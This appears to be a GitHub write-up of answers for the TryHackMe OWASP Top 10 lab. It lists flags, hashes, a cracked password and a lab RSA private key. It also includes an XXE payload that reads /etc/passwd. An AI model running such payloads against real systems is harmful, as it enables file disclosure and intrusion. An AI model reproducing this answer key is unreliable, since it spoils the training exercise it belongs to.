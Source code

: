 # Open Web Application Security Project [OWASP]
[![Head](./assets/head.png)](https://tryhackme.com/r/room/owasptop10)

Further materials: 

## [Severity 1] Command Injection Practical
1. strange text file : drpepper.txt
2. The table helps in solving the question 2
| Feature               | Root User       | Daemon Users              | Root Services            |
|-----------------------|-----------------|---------------------------|--------------------------|
| **Username**          | `root`         | Service-related (`mysql`) | N/A                      |
| **UID**               | `0`            | > `0` and < `1000`        | Run by `root` user       |
| **Home Directory**    | `/root`        | `/var/lib/`, `/nonexistent` | N/A                      |
| **Login Access**      | Full           | Disabled (`nologin`)      | Interactive or automated |
| **Purpose**           | System admin   | Running background tasks  | Critical services as root|

3. www-data
4. /usr/sbin/nologin
5. 18.04.4
6. DR PEPPER


## [Severity 2] Broken Authentication Practical
1. fe86079416a21a3c99937fea8874b667
2. d9acOf7db4fda460ac3edeb75d75e16e

## [Severity 3] Sensitive Data Exposure (Challenge)
1. /assets
2. webapp.db
3. 6eea9b7ef19179a06954edd0f6c05ceb
4. qwertyuiop
5. THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}

## [Severity 4] XML External Entity Task-15
```payload
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
3. falcon
4. /home/falcon/.ssh/id_rsa
5. MIIEogIBAAKCAQEA7b

-----BEGIN RSA PRIVATE KEY----- MIIEogIBAAKCAQEA7bq7Uj0ZQzFiWzKc81OibYfCGhA24RYmcterVvRvdxw0IVSC lZ9oM4LiwzqRIEbed7/hAA0wu6Tlyy+oLHZn2i3pLur07pxb0bfYkr7r5DaKpRPB 2Echy67MiXAQu/xgHd1e7tST18B+Ubnwo4YZNxQa+vhHRx4G5NLRL8sT+Vj9atKN MfJmbzClgOKpTNgBaAkzY5ueWww9g0CkCldOBCM38nkEwLJAzCKtaHSreXFNN2hQ IGfizQYRDWH1EyDbaPmvZmy0lEELfMR18wjYF1VBTAl8PNCcqVVDaKaIrbnshQpO HoqIKrf3wLn4rnU9873C3JKzX1aDP6q+P+9BlwIDAQABAoIBABnNP5GAciJ51KwD RUeflyx+JJIBmoM5jTi/sagBZauu0vWfH4EvyPZ2SThZPfEb3/9tQvVneReUoSA5 bu5Md58Vho6CD81qCQktBAOBV0bwqIGcMFjR95gMw8RS9m4AyUnUgf438kfja5Jh NP36ivgQZZFBqzLLzoG9Y9jlGKjiSyMvW4u63ZacCKPTpp5P53794/UVU7JiM03y OvavZ2QveJp5BndV5lOkcIEFwFRACDK1xwzDRzx/TNJLufztb2EheMc3stNuOMea TLKlbG0Mp/c2az8vNN6HA0QiwxYlKZ58RfdsOfbsFxAltYNnzxy9UEieXtrWVg7X Qfi/ZeECgYEA/pfgg6BClEmipXv8hVkLWe7VwlFf4RXnxfWyi6OqC/3Yt9Q9B4Ya 6bgLzk2vPNHgJt+g2yh/TzMX6sCC9IMYedc0faiJr/VISBm25qTjqIGctwt0D3nb j60mSKKFbwDPxrcek/7WH1cWDcaLTDdL9KPLk1JQzbwDzojrE1TDD+cCgYEA7wsA MPm4aUDikZHKhQ5OOge+wzPNXVR6Yy1VV3WZfxRCoEuq6fYEJsKB5tykfQPC8cUn qwGvo8TiMHbQ9KmI5FabfBK8LswQ575bnLtMxdPyBCgYqlsAIkPYQAOizUVlrOOg faKF5VknsONM9DC3ZNx5L1zQXbsIrWbEPsRlytECgYB7CXr/IZwLfeqUfu7yoq3R sJKtbhYf+S4hhTPcOCQd13e8n10/HZg0CzXpZbGieusQ3lIml9Ouusp8ML0Y3aIe f9pmP+UKnEdqUMMLg/RhowHRlD9qm0F4lf1CbQh/NK01I5ore6SPUM7fqWv4UWDr wZzIfad/RbWxQooYtYXvUQKBgFDLcBIdpYX1x16aX1AfqLMWgRSrQqNj9UXmQa0g 83OvXmGdkbQoUfjjz1I/i10x00cycxjqpfn9htIIptG7J6i92SnTj0Vl9eTOQ1qz N9y5qVhcURHrVh0+vy3LzNACv73y5gDw2L7PJoo0GYODn8j4eAFZJpg3qlQpovTw HtOxAoGABqwywFKFNTYgrl17Rs4g3H1nc0EhOzGetRaRL2bcvQsZevuWyswp0Mbm 9nlgNAtxttsmfL+OU7nP3I4YQlyZed4luRWcRaXrvGMqfEL4wzRez5ZxMnZM/IlQ 9DBlD9C7t5MI3aXR3A5zFVVINomwHH7aGfeha1JRXXAtasLTVvA= -----END RSA PRIVATE KEY-----

## [Severity 5] Broken Access Control (IDOR Challenge)
1. -
2. -
3. flag{fivefourthree}

## [Severity 6] Security Misconfiguration
1. -
2. -
3. thm{4b9513968fd564a87b28aa1f9d672e17}

## [Severity 7] XSS
1. -
2. ThereIsMoreToXSSThanYouThink
3. ReflectiveXss4TheWin
